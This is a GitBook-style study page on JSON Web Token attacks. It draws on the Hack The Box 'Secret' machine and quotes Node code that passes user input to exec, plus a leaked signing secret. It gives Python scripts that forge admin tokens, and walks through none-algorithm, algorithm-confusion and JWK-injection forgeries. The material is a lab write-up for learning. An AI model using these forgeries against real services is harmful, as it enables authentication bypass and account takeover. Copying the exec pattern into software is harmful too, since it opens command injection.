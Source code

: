 ```yaml
---
description: >-
  Many applications use JSON Web Tokens (JWT) to allow the client to indicate
  its identity for further exchange after authentication.
cover: broken-reference
coverY: 0
---
```


# JSON Web token

What is a JSON Web Token or JWT

JWTs are a secure, compact way to transmit information between parties. They're digitally signed, ensuring data integrity and authenticity. First what is JSON? JSON is a lightweight data interchange format that's easy to read and write.

{% hint style="info" %}
Each section of a JSON webtoken is base64 encoded and seperated by a `'.'` .
{% endhint %}

#### Header

#### The header is made of the token type which is JWT and the algorithm used like HMAC, SHA256 or RSA.

<figure><img src="broken-reference" alt=""><figcaption><p>jwt header</p></figcaption></figure>

#### Payload

Contain predefined claims which can be manipulated, they are statement about an entity which is usually the user. There are 3 types of claims: registered, public and private.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### Signature - Generated by hashing header and

The first two parts: header and payloads wil not be encoded but not encrypted, anoyone can decode, read but also tamper with. The signatrue is created using the header, payload and the secret which is saved on the server. This is called signing the Json web token.

The signing alorithm takes the header, payload and secret to create a unique signature.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If the two signatures which are being compared are actually different, it means that someone tampered with the data and authentication will fail.
{% endhint %}

### Forging a JWT for unauthorized acces

For this we are using the [Hackthebox Secret machine](https://www.hackthebox.com/machines/secret) . We find a .logs file with the following code which was vulnerable for command injection because it builds a string with user input and is then passed to exec. It starts at the const getLogs

```javascript
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

Creating a json token is done with the variables found in a login file

```javascript
router.post('/login', async (req , res) => {
<SNIP>
 // create jwt
 const token = jwt.sign({ _id: user.id, name: user.name , email: user.email},
process.env.TOKEN_SECRET )
 res.header('auth-token', token).send(token);
})
```

And with the secret in this: `gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

You can either craft it manually using burp or curl but http://jwt.io is a nice website for doing this. Changing the name to "theadmin"

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Sending the request we get a response as admin, and simply by changing the name to theadmin user which had admin role we are now logged in as admin user.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

For practice I wrote this simple python script which will take username and secret as input and then encode the new key.

{% code overflow="wrap" %}
```python
import jwt

def create_token(payload):
    secret = input('Secret: ')
    algorithm = 'HS256'
    
    # Uses jwt module to ecode jwt with payload, secret an alg.
    token = jwt.encode(payload, secret, algorithm=algorithm)
    return token

def json_payload():
    name = input('Name: ')

    # json token payload
    payload = {
        '_id': '67221de57376db047c259cc8', 
        'name': name, 
        'email': 'noreply@fake.com', 
        'iat': 1730289242
    }
    return payload

# Json function into variable payload 
payload = json_payload() 

# Call create_token function using payload function
print("\nAdmin token: ", create_token(payload))
```
{% endcode %}

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### JWT None algorithm attack

We can use cyberchef and use JWT Sign with none algorithm. It could be the web app accpts a token without signature.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### Algorithm Confusion

Here a different algorithm is used then the one that was used to make the token. For example when a token algorithm is RS256 a private and public key is used. We can use the public key to generate a token and change to algorithm to HS256.

```bash
# install rsa_sign2n
git clone https://github.com/silentsignal/rsa_sign2n
cd rsa_sign2n/standalone/
docker build . -t sig2n

# Run 
docker run -it sig2n /bin/bash
```

Then insert 2 JWT's signed with same public key

```
python3 jwt_forgery.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZsdfsfsmFsc2UsImV4cCI6MTcxMTI3MTkyOX0.<SNIP> eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsIsdfsdmV4cCI6MTcxMTI3MTk0Mn0.<SNIP>
```

Check for the pem file \*\_509.pem. Use that public key to create a new token in cyberchef.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### JWK Exploit

When jwk is used its possible to forge a JWT using these details, by using script below, but first generate keys

```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048
mczopenssl rsa -pubout -in private.pem -out public.pem
```

<details>

<summary>forgejwt_withjwk.py</summary>

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {'user': 'htb-stdnt', 'isAdmin': True}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```

</details>
